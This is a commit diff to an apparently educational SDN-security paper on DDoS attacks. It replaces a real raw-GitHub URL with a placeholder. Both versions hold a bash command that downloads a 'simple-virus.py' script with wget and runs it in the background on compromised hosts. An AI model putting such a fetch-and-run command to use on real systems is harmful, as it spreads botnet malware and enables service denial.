

Before and after one commit to ozeliurs/SDN-Security, a Markdown page: papers/Anatomy of a DDoS Attack: From Host Infection to Service Denial.md, the part around the change. Drawn GitHub-style.

Commit message:
fix: wrapping by obfuscating the url

````diff
--- a/papers/Anatomy of a DDoS Attack: From Host Infection to Service Denial.md
+++ b/papers/Anatomy of a DDoS Attack: From Host Infection to Service Denial.md
@@ -83,7 +83,7 @@ The idea is that the attacker can host a simple page that will be read by the vi
 The virus can be launched on the compromised hosts using the following command:
 
 ```bash
-wget https://raw.githubusercontent.com/ozeliurs/SDN-Security/main/papers/.project-files/ddos-attack/simple-virus.py
+wget https://<URL>/simple-virus.py
 python3 simple-virus.py &
 ```
 
````
